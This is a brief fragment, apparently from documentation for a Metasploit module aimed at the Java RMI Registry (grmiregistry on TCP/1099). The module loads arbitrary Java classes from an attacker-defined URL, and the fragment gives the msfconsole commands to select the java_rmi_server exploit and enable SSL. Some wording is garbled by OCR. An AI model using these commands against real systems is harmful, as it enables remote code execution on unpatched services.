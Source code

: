 Allow the loading of arbitrary Java classes from an attacker-defined URL.
The Java RMI Registry service typically found o n port `TCP/1099` identified by the `GNU Classpath grmiregistry`

```sh
use exploit/multi/misc/java_rmi_server
set SSL true
```


